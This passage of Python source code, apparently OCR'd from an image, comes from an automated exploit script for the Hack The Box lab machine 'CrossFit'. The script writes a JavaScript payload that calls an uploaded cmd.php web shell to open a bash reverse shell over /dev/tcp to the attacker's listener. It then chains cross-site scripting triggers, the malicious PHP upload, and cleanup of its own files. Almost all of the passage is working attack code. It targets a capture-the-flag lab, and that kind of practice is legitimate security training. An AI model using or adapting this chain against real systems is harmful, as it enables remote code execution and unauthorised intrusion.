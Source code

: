 ```py
    payload += "function getRCE(){\n"
    payload += "	var rev = new XMLHttpRequest();\n"
    payload += "	var url = \"http://development-test.crossfit.htb/cmd.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/" + lhost + "/" + lport + "+0>%261'\";\n"
    payload += "	rev.open('GET', url, true);\n"
    payload += "	rev.send();\n"
    payload += "}\n"
    payload += "getRCE()"
    f = open("0x4rt3mis_auto.js", "w")
    f.write(payload)
    f.close()
    print("[+] JS Reverse Shell Created !! [+]")
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Create the payload to create an account on the ftp server
    createPayloadFTP()
    # Trigger to the account the created
    triggerXSS(lhost)
    os.system("sleep 7")
    # Create the payload to get the reverse shell
    getReverseShell(lhost,lport)
    # Upload the malicious php
    uploadPHP()
    # Get the reverse shell
    os.system("sleep 7")
    triggerXSS(lhost)
    os.system("sleep 7")
    # Remove the files
    os.system("rm 0x4rt3mis_auto.js")
    os.system("rm cmd.php")
    
if __name__ == '__main__':
    main()
```
